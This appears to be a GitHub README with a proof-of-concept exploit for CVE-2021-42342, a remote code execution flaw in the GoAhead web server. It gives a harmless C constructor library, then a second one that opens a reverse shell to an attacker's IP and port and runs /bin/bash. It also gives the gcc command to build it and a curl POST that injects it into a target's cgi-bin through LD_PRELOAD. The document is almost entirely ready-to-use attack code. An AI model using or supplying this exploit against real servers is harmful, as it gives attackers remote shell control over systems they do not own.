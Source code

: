 # CVE-2021-42342
CVE-2021-42342 RCE


POC1:just prints 
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
static void before_main(void) __attribute__((constructor));

static void before_main(void)
{
    write(1, "Hello World!\n", 14);
}
```

POC2: reverse shell
```c
#include<stdio.h>
#include<stdlib.h>
#include<sys/socket.h>
#include<netinet/in.h>

char *server_ip="***";
uint32_t server_port=7777;

static void reverse_shell(void) __attribute__((constructor));
static void reverse_shell(void) 
{
  int sock = socket(AF_INET, SOCK_STREAM, 0);
  struct sockaddr_in attacker_addr = {0};
  attacker_addr.sin_family = AF_INET;
  attacker_addr.sin_port = htons(server_port);
  attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
  if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
    exit(0);
  dup2(sock, 0);
  dup2(sock, 1);
  dup2(sock, 2);
  execve("/bin/bash", 0, 0);
}
```

usage:

step1:
`gcc hack.c -fPIC -shared -o poc.so` 

step2:
`curl -X POST  http://[TARGET]/cgi-bin/ -F "LD_PRELOAD=/proc/self/fd/0" -F file='@poc.so;encoder=base64'`

from:
- https://github.com/kimusan/goahead-webserver-pre-5.1.5-RCE-PoC-CVE-2021-42342-
- https://mp.weixin.qq.com/s/AS9DHeHtgqrgjTb2gzLJZg 
